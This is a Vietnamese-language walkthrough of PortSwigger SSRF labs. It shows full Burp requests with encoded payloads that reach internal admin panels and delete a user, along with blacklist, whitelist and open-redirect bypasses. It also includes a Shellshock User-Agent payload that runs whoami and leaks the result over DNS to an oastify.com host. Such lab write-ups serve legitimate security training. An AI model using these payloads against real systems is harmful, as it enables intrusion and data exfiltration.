

# SSRF

## **Lab: Basic SSRF against the local server**

[Lab: Basic SSRF against the local server | Web Security Academy](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)

- Thực hiện chọn một sản phẩm. Kiểm tra số lượng sản phẩm còn trong kho
    
    
    
- Trong phần mềm Burpsuite, thực hiện nghiên cứu request gửi tới API `POST /product/stock` . Quan sát thấy cơ chế để lấy số lượng hàng tồn kho là gọi đến một url và response là số lượng. Nếu như thực hiện truy cập đến url dẫn tới `Admin panel` thì có thể sẽ có response trả về là panel của admin
    
    
    
- Thực hiện gọi tới url của trang admin nhờ đường dẫn mà đề bài gợi ý. Chỉnh param `stockApi`  thành url dẫn tới admin panel
    - Request
        
        ```html
        POST /product/stock HTTP/2
        Host: 0a62004603849a4881388ff6008c00fd.web-security-academy.net
        Cookie: session=P3i2rZdFHtfCay2zN3p3SSoiQAtehF1G
        User-Agent: admin
        Accept: */*
        Accept-Language: en-US,en;q=0.9
        Accept-Encoding: gzip, deflate, br
        Referer: https://0a62004603849a4881388ff6008c00fd.web-security-academy.net/product?productId=1
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 39
        Origin: https://0a62004603849a4881388ff6008c00fd.web-security-academy.net
        Sec-Fetch-Dest: empty
        Sec-Fetch-Mode: cors
        Sec-Fetch-Site: same-origin
        Priority: u=0
        Te: trailers
        
        stockApi=http%3a%2f%2flocalhost%2fadmin
        ```
        
    - Response
        
        
        
- Thực hiện gửi tiếp url sau để xóa user `carlos` và hoàn thành giải lab
    - Đường dẫn để xóa user `carlos`
        
        
        
    - Request
        
        ```html
        POST /product/stock HTTP/2
        Host: 0a62004603849a4881388ff6008c00fd.web-security-academy.net
        Cookie: session=P3i2rZdFHtfCay2zN3p3SSoiQAtehF1G
        User-Agent: admin
        Accept: */*
        Accept-Language: en-US,en;q=0.9
        Accept-Encoding: gzip, deflate, br
        Referer: https://0a62004603849a4881388ff6008c00fd.web-security-academy.net/product?productId=1
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 68
        Origin: https://0a62004603849a4881388ff6008c00fd.web-security-academy.net
        Sec-Fetch-Dest: empty
        Sec-Fetch-Mode: cors
        Sec-Fetch-Site: same-origin
        Priority: u=0
        Te: trailers
        
        stockApi=http%3a%2f%2flocalhost%2fadmin%2fdelete%3fusername%3dcarlos
        ```
        
    - Response
        
        
        
- Hoàn thành giải lab
    
    
    

## **Lab: Basic SSRF against another back-end system**

[Lab: Basic SSRF against another back-end system | Web Security Academy](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)

- Thực hiện chọn một sản phẩm. Kiểm tra số lượng sản phẩm còn trong kho
    
    
    
- Trong phần mềm Burpsuite, thực hiện bắt request gửi tới API `POST /product/stock` . Chuyển sang tab Repeater.
    
    ```html
    POST /product/stock HTTP/2
    Host: 0ac900670412e52680a6c1cd005600a3.web-security-academy.net
    Cookie: session=jYLGWMJ3WjStw1rXT2tjzyqx3sxkRmmj
    User-Agent: admin
    Accept: */*
    Accept-Language: en-US,en;q=0.9
    Accept-Encoding: gzip, deflate, br
    Referer: https://0ac900670412e52680a6c1cd005600a3.web-security-academy.net/product?productId=1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 96
    Origin: https://0ac900670412e52680a6c1cd005600a3.web-security-academy.net
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Priority: u=0
    Te: trailers
    
    stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
    ```
    
- Quan sát rằng, cơ chế lấy về số hàng tồn kho là gửi request đến 1 url. Nếu như url đó không tồn tại thì sẽ trả về 500
    - POC
        
        
        
- Thực hiện chuyển request trên sang tab Repeater và thực hiện tìm còn có ip nào hợp lệ không
    - Config Burp Intruder
        
        
        
- Kết quả trả về có 1 url trả về 404
    - POC
        
        
        
- Thực hiện chuyển request có status code 404 ở bước trước sang tab Repeater. Tại đây, thực hiện thêm path `/admin` thì ra được `Admin panel`
    
    
    
- Thực hiện gửi request tới url xóa `carlos` để xóa `carlos` . Xóa user thành công. Hoàn thành giải lab
    
    
    
    
    

## **Lab: Blind SSRF with out-of-band detection**

[Lab: Blind SSRF with out-of-band detection | Web Security Academy](https://portswigger.net/web-security/ssrf/blind/lab-out-of-band-detection)

- Truy cập vào một sản phẩm bất kỳ.
    
    
    
- Trong phần mềm Burpsuite, thực hiện chỉnh sửa header `Referer`  của request gửi tới API `GET /product?productId=<id>` thành url mà ta kiểm soát. Cụ thể request như sau:
    - Request
        
        ```html
        GET /product?productId=1 HTTP/2
        Host: 0ac700130408a39c8070122d001d00d9.web-security-academy.net
        Cookie: session=n7fLfcBX7eYkHOwHaAWzn9g8cfem0bCm
        User-Agent: admin
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: en-US,en;q=0.9
        Accept-Encoding: gzip, deflate, br
        Referer: http://lazq1u7nmtbeshgvnzzhdwjh88ez2pqe.oastify.com
        Upgrade-Insecure-Requests: 1
        Sec-Fetch-Dest: document
        Sec-Fetch-Mode: navigate
        Sec-Fetch-Site: same-origin
        Sec-Fetch-User: ?1
        Priority: u=0, i
        Te: trailers
        
        ```
        
    - Response
        
        
        
- Hoàn thành giải lab
    
    
    

## **Lab: SSRF with blacklist-based input filter**

[Lab: SSRF with blacklist-based input filter | Web Security Academy](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)

- Thực hiện truy cập vào một món hàng bất kỳ. Kiểm tra số lượng tồn kho món hàng đó
    
    
    
- Trong phần mềm Burpsuite, thực hiện bắt request gửi tới API `POST /product/stock` chuyển sang tab Repeater. Tại đây, chúng ta quan sát được phía backend đã xử lý chặn khi chúng ta thay URL không hợp lệ vào param `stockApi`
    - POC
        
        
        
- Chúng ta có thể sử dụng url khác là `127.1` và thành công request
    - POC
        
        
        
- Tại đây, thực hiện truy cập vào path `/admin` nhưng bị chặn
    - POC
        
        
        
- Tuy nhiên, khi thực hiện encode 2 lần thì thành công có thể là khi request gửi về thì được decode 1 lần và khi request nội bộ lại được decode lần nữa.
    - POC
        
        
        
- Thực hiện truy cập vào path xóa `carlos` . Hoàn thành giải lab
    - POC xóa `carlos`
        
        
        
    - POC hoàn thành lab
        
        
        

## **Lab: SSRF with filter bypass via open redirection vulnerability**

[Lab: SSRF with filter bypass via open redirection vulnerability | Web Security Academy](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)

- Thực hiện truy cập sản phẩm bất kỳ. Kiểm tra hàng tồn bằng chức năng `Check stock`
    
    
    
- Trong phần mềm Burpsuite, thực hiện bắt request gửi tới API `POST /product/stock` . Tại đây, chúng ta thấy có `stockApi` là path để kiểm tra số lượng và trả về kết quả của request nội bộ cho user → nếu request url nội bộ khác như trang admin thì cũng có thể xem được nội dung trang rồi
- Tuy nhiên, nếu dùng trực tiếp url [`http://192.168.0.12:8080/admin`](http://192.168.0.12:8080/admin) thì sẽ bị chặn vì không phải path hợp lệ
    - POC
        
        
        
- Path hợp lệ sẽ có thể như này
    
    
    
- Ở trên web, có một chức năng open rediect dẫn người dùng đến trang khác khi thực hiện xem một sản phẩm và muốn xem thêm sản phẩm khác
    
    
    
- Thực hiện chức năng `Next product` . Trong phần mềm Burpsuite, bắt request gửi tới API `/product/nextProduct?currentProductId=1&path=` và nhận thấy path để redirect không bị filter. Ngoài ra path này cũng khác giống path check stock → có thể không bị filter
    
    
    
- Chain 2 chức năng lại, ta có thể check stock 1 path redirect đến trang nội bộ và kết quả sẽ được trả về
    - Request
        
        ```jsx
        POST /product/stock HTTP/2
        Host: 0a17000a04f9870f804508a600c70079.web-security-academy.net
        Cookie: session=Z6QXpmFlUCLU76pQhcVv7S2IG5KIZndN; session=ckjOiTht2pmcFMEXKBJ1o0ivP4XZcNhW
        User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:149.0) Gecko/20100101 Firefox/149.0
        Accept: */*
        Accept-Language: en-US,en;q=0.9
        Accept-Encoding: gzip, deflate, br
        Referer: https://0a17000a04f9870f804508a600c70079.web-security-academy.net/product?productId=2
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 106
        Origin: https://0a17000a04f9870f804508a600c70079.web-security-academy.net
        Sec-Fetch-Dest: empty
        Sec-Fetch-Mode: cors
        Sec-Fetch-Site: same-origin
        Priority: u=0
        Te: trailers
        
        stockApi=%2fproduct%2fnextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a%2f%2f192.168.0.12%3a8080%2fadmin
        ```
        
    - POC
        
        
        
- Thực hiện gửi path xóa và xóa thành công user `carlos` . Hoàn thành giải lab
    
    
    
    
    

## **Lab: Blind SSRF with Shellshock exploitation**

[Lab: Blind SSRF with Shellshock exploitation | Web Security Academy](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation)

- Bài này em xem solution ở phần có shellshock ở service nội bộ và do parse header `User-Agent` gây ra ạ.
- Thực hiện truy cập một món hàng bất kỳ.
    
    
    
- Trong phần mềm Burpsuite, thực hiện bắt request gửi tới API `GET /product?productId=<id>` .
    - Request
        
        ```jsx
        GET /product?productId=1 HTTP/2
        Host: 0a8000ec0379e4bf82afd9e5006c002a.web-security-academy.net
        Cookie: session=y2hojVp7P33CsPfmKKUg6q9Yl6EjIFuB
        User-Agent: () { :; }; /usr/bin/nslookup $(whoami).i7qu3npfwbi97jhd78xmwg726tck0cr0g.oastify.com
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: en-US,en;q=0.9
        Accept-Encoding: gzip, deflate, br
        Referer: http://192.168.0.0:8080
        Upgrade-Insecure-Requests: 1
        Sec-Fetch-Dest: document
        Sec-Fetch-Mode: navigate
        Sec-Fetch-Site: same-origin
        Sec-Fetch-User: ?1
        Priority: u=0, i
        Te: trailers
        
        ```
        
- Tiếp tục, thực hiện gửi request trên với header là đến domain của Burpcollab
    - Request
        
        ```jsx
        GET /product?productId=1 HTTP/2
        Host: 0a8000ec0379e4bf82afd9e5006c002a.web-security-academy.net
        Cookie: session=y2hojVp7P33CsPfmKKUg6q9Yl6EjIFuB
        User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:149.0) Gecko/20100101 Firefox/149.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: en-US,en;q=0.9
        Accept-Encoding: gzip, deflate, br
        Referer: http://q5w21vnnujgh5rfl5gvuuo5a41asyj37s.oastify.com
        Upgrade-Insecure-Requests: 1
        Sec-Fetch-Dest: document
        Sec-Fetch-Mode: navigate
        Sec-Fetch-Site: same-origin
        Sec-Fetch-User: ?1
        Priority: u=0, i
        Te: trailers
        
        ```
        
    - Response
        
        
        
- Từ bước trước, chúng ta nhận thấy rằng có một request sẽ được gửi tiếp và lại lấy cả useragent của chúng ta gửi đề. Kết hợp với đề cho rằng có một service nội bộ có lỗi shellshock.
- Thực hiện thêm payload sau vào header `User-agent`
    - Payload
        
        ```jsx
        () { :; }; /usr/bin/nslookup $(whoami).i7qu3npfwbi97jhd78xmwg726tck0cr0g.oastify.com
        ```
        
- Thay đổi header `Referer` thành địa chỉ ip nội bộ.
    
    ```jsx
    http://192.168.0.$0$:8080
    ```
    
- Chuyển request đã sửa sang tab `Intruder` và thực hiện quét như sau:
    - Request
        
        ```jsx
        GET /product?productId=1 HTTP/2
        Host: 0a8000ec0379e4bf82afd9e5006c002a.web-security-academy.net
        Cookie: session=y2hojVp7P33CsPfmKKUg6q9Yl6EjIFuB
        User-Agent: () { :; }; /usr/bin/nslookup $(whoami).i7qu3npfwbi97jhd78xmwg726tck0cr0g.oastify.com
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: en-US,en;q=0.9
        Accept-Encoding: gzip, deflate, br
        Referer: http://192.168.0.0:8080
        Upgrade-Insecure-Requests: 1
        Sec-Fetch-Dest: document
        Sec-Fetch-Mode: navigate
        Sec-Fetch-Site: same-origin
        Sec-Fetch-User: ?1
        Priority: u=0, i
        Te: trailers
        
        ```
        
    - Config
        
        
        
- Quan sát Burpcollab được trigger. Nhận được OS username
    - Response
        
        
        
- Submit kết quả và hoàn thành giải lab
    
    
    

## **Lab: SSRF with whitelist-based input filter**

[Lab: SSRF with whitelist-based input filter | Web Security Academy](https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter)

- Chỗ này, em gọi được trang nội bộ rồi nhưng mà response trả về là trang chủ, không vào được admin panel dù có path trong response rồi → em xem solution thì do phần path em để trước `@` . Em thực hiện để lại path ở cuối cùng thì được ạ.
- Truy cập vào một sản phẩm và kiểm tra số lượng hàng tồn kho sản phẩm ấy.
    
    
    
- Trong phần mềm Burpsuite, thực hiện bắt và chuyển request gửi tới API `POST /product/stock` sang tab `Repeater`
    - Request
        
        ```jsx
        POST /product/stock HTTP/2
        Host: 0a50004a03d5fa49802e17930036002d.web-security-academy.net
        Cookie: session=sG4EwlddbA7O8r0sUsLASHlVAHg6PC67
        User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:149.0) Gecko/20100101 Firefox/149.0
        Accept: */*
        Accept-Language: en-US,en;q=0.9
        Accept-Encoding: gzip, deflate, br
        Referer: https://0a50004a03d5fa49802e17930036002d.web-security-academy.net/product?productId=1
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 110
        Origin: https://0a50004a03d5fa49802e17930036002d.web-security-academy.net
        Sec-Fetch-Dest: empty
        Sec-Fetch-Mode: cors
        Sec-Fetch-Site: same-origin
        Priority: u=0
        Te: trailers
        
        stockApi=http%3a%2f%2flocalhost%2523%3a11%40stock.weliketoshop.net%3a8080%2fadmin%2fdelete%3fusername%3dcarlos
        ```
        
- Tại đây, nhận thấy rằng code đã validate tên miền buộc phải là [`stock.weliketoshop.net`](http://stock.weliketoshop.net/) nếu không sẽ bị lỗi
    
    
    
- Thực hiện sử dụng encode 2 lần vì khả năng lần đầu khi nhận raw input và parse để validate sẽ không thể ra hết ký tự cho đến khi fetch thì sẽ có khả năng decode lần nữa.
    - Double encoding `#`
        
        
        
    - Payload
        
        ```jsx
        http%3a%2f%2flocalhost%2523%3a11%40stock.weliketoshop.net%3a8080%2fadmin%2fdelete%3fusername%3dcarlos
        ```
        
- Thực hiện gửi request và response trả về admin panel
    - Request
        
        ```jsx
        POST /product/stock HTTP/2
        Host: 0a50004a03d5fa49802e17930036002d.web-security-academy.net
        Cookie: session=sG4EwlddbA7O8r0sUsLASHlVAHg6PC67
        User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:149.0) Gecko/20100101 Firefox/149.0
        Accept: */*
        Accept-Language: en-US,en;q=0.9
        Accept-Encoding: gzip, deflate, br
        Referer: https://0a50004a03d5fa49802e17930036002d.web-security-academy.net/product?productId=1
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 110
        Origin: https://0a50004a03d5fa49802e17930036002d.web-security-academy.net
        Sec-Fetch-Dest: empty
        Sec-Fetch-Mode: cors
        Sec-Fetch-Site: same-origin
        Priority: u=0
        Te: trailers
        
        stockApi=http%3a%2f%2flocalhost%2523%3a11%40stock.weliketoshop.net%3a8080%2fadmin%2fdelete%3fusername%3dcarlos
        ```
        
    - Response
        
        
        
- Thực hiện xóa user `carlos` . Hoàn thành giải lab
    - Request
        
        ```jsx
        POST /product/stock HTTP/2
        Host: 0a50004a03d5fa49802e17930036002d.web-security-academy.net
        Cookie: session=sG4EwlddbA7O8r0sUsLASHlVAHg6PC67
        User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:149.0) Gecko/20100101 Firefox/149.0
        Accept: */*
        Accept-Language: en-US,en;q=0.9
        Accept-Encoding: gzip, deflate, br
        Referer: https://0a50004a03d5fa49802e17930036002d.web-security-academy.net/product?productId=1
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 110
        Origin: https://0a50004a03d5fa49802e17930036002d.web-security-academy.net
        Sec-Fetch-Dest: empty
        Sec-Fetch-Mode: cors
        Sec-Fetch-Site: same-origin
        Priority: u=0
        Te: trailers
        
        stockApi=http%3a%2f%2flocalhost%2523%3a11%40stock.weliketoshop.net%3a8080%2fadmin%2fdelete%3fusername%3dcarlos
        ```
        
    - Response
        
        
        
        